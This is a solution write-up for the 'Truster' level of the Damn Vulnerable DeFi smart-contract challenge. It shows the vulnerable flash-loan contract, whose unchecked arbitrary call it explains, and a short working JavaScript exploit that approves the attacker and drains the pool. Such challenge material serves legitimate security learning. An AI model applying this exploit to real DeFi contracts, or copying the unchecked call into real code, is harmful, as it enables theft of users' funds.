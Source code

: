 #+AUTHOR: Francesco Cannarozzo
* Truster
  ../Contracts/Truster.sol
** Statement
   pool has 1 million tokens. attacker has none. In a single transaction, attacker must steal them all.
** Files
*** TrusterLenderPool.sol
**** Code
    #+BEGIN_SRC solidity
    // SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {

    using Address for address;

    IERC20 public immutable damnValuableToken;

    constructor (address tokenAddress) {
        damnValuableToken = IERC20(tokenAddress);
    }

    function flashLoan(
        uint256 borrowAmount,
        address borrower,
        address target,
        bytes calldata data
    )
        external
        nonReentrant
    {
        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
        require(balanceBefore >= borrowAmount, "Not enough tokens in pool");
        
        damnValuableToken.transfer(borrower, borrowAmount);
        target.functionCall(data);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
    }

}
    #+END_SRC
**** Breakdown
***** State
      only the token address is maintained, as an immutable set via the constructor at deployment.
***** flashLoan
      usual flashloan checks are performed.
      _NOTICE_
      no fee, and no checking that *borrowedAmount* is greater than zero.

      in the calldata for *flashLoan*, we are able to specify a *target* address,
      as well as *bytes calldata* data.

      after transferring funds to borrower, function specified in data is called from target.

      ...that's obviously it, isn't it?
   
** Exploit
   since *flashLoan* allows for *anyone* to call *any* function from *any* address,
   we should be able to just approve ourselves for any possible amount of funds,
   calling *flashLoan* borrowing 0 ether, specifing DVT token as target, and the appropriate
   payload.

   #+BEGIN_SRC javascript
        let ABI = [
            "function approve(address spender, uint256 amount)"
        ]
        let attackerAddress = await attacker.getAddress()

        let interface = new ethers.utils.Interface(ABI)

        let poison = interface.encodeFunctionData("approve", [attackerAddress, TOKENS_IN_POOL])

        await this.pool.flashLoan(0, attackerAddress, this.token.address, poison )

        await this.token.connect(attacker).transferFrom(this.pool.address, attackerAddress, TOKENS_IN_POOL)

   #+END_SRC
